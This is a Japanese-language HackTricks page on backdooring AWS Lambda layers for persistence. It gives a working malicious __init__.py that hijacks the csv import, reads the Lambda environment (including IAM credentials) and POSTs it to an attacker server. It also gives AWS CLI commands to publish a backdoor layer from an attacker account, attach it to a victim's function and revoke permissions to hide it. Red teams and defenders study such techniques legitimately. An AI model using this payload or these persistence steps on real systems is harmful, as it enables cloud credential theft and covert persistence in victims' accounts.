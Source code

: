# AWS - Lambda Layers Persistence

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する
- **ハッキングトリックを共有する**ために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## Lambda Layers

Lambdaレイヤーは、**追加のコードやその他のコンテンツを含む**.zipファイルアーカイブです。レイヤーにはライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または構成ファイルを含めることができます。

1つの関数に**最大5つのレイヤーを含める**ことができます。関数にレイヤーを含めると、**内容は実行環境の`/opt`ディレクトリに展開**されます。

**デフォルト**では、作成した**レイヤー**はAWSアカウントに**プライベート**です。他のアカウントとレイヤーを**共有**するか、レイヤーを**公開**するかを選択できます。異なるアカウントが公開したレイヤーを関数が消費する場合、関数は**削除された後もレイヤーバージョンを使用し続けることができます**、またはレイヤーへのアクセス許可が取り消された後も使用できます。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新したりすることはできません。

コンテナイメージとして展開された関数はレイヤーを使用しません。代わりに、イメージをビルドする際に好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージ化します。

### Pythonのロードパス

PythonがLambdaで使用するロードパスは次のとおりです：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**第二**と**三番目の位置**が、**lambda layers**がファイルを展開するディレクトリによって占有されているかを確認します：**`/opt/python/lib/python3.9/site-packages`** と **`/opt/python`**

{% hint style="danger" %}
攻撃者が使用されているlambda **layer**に**バックドアを仕掛けたり**、**実行される任意のコードを追加したり**することに成功した場合、共通ライブラリがロードされるたびに悪意のあるコードを実行できるようになります。
{% endhint %}

したがって、要件は次のとおりです：

- 被害者のコードによって**ロードされるライブラリを確認する**
- **lambda layers**を使用した**プロキシライブラリを作成**し、**カスタムコードを実行**して**元の**ライブラリを**ロードする**。

### 事前にロードされたライブラリ

{% hint style="warning" %}
このテクニックを悪用する際に困難に直面しました：Pythonランタイムでコードが実行されるときにはすでにいくつかのライブラリが**ロードされていました**。`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえもロードされていました**。\
この持続性テクニックを悪用するためには、コードが実行されるときに**ロードされていない新しいライブラリをロードする**必要があります。
{% endhint %}

このようなPythonコードを使用すると、lambda内のPythonランタイムで**事前にロードされたライブラリのリスト**を取得できます：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そして、これが**リスト**です（`os`や`json`などのライブラリがすでにあるかどうかを確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
以下は、**lambdaにデフォルトでインストールされているライブラリ**のリストです: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

この例では、対象のコードが**`csv`**をインポートしていると仮定します。**`csv`ライブラリのインポートにバックドアを仕掛けます**。

そのために、lambdaによってロードされるパスに、ファイル**`__init__.py`**を含むディレクトリ**csv**を作成します: **`/opt/python/lib/python3.9/site-packages`**\
その後、lambdaが実行され、**csv**をロードしようとすると、**`__init__.py`ファイルがロードおよび実行**されます。\
このファイルは次のようにする必要があります:

* ペイロードを実行する
* 元のcsvライブラリをロードする

次のように両方を行うことができます:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
その後、このコードを**`python/lib/python3.9/site-packages/__init__.py`**のパスに含むzipファイルを作成し、Lambda レイヤーとして追加します。

このコードは[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) で見つけることができます。

統合されたペイロードは、**最初に呼び出されるとIAMクレデンシャルをサーバーに送信するか、Lambdaコンテナがリセットされた後**（コードの変更またはコールドLambda）に送信しますが、**他の技術**も統合できます:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部レイヤー

外部アカウントから**Lambda レイヤーを使用することが可能**です。さらに、Lambda は権限を持っていなくても外部アカウントからレイヤーを使用できます。\
また、Lambda が持つことができる**レイヤーの最大数は5**です。

したがって、この技術の柔軟性を向上させるために、攻撃者は次のことができます:

* ユーザーの既存のレイヤーにバックドアを仕込む（何も外部ではない）
* **自身のアカウントで** **レイヤーを作成**し、**被害者アカウントにアクセス権限を与え**、被害者のLambdaで**レイヤーを構成**し、**権限を削除**します。
* **Lambda** は引き続き**レイヤーを使用**でき、被害者は（Lambda内でリバースシェルを取得する以外に）**レイヤーのコードを簡単にダウンロードする方法を持たなくなります。
* 被害者は**`aws lambda list-layers`**で使用されている**外部レイヤーを見ることができません**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションを発見する
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **HackTricks**および**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
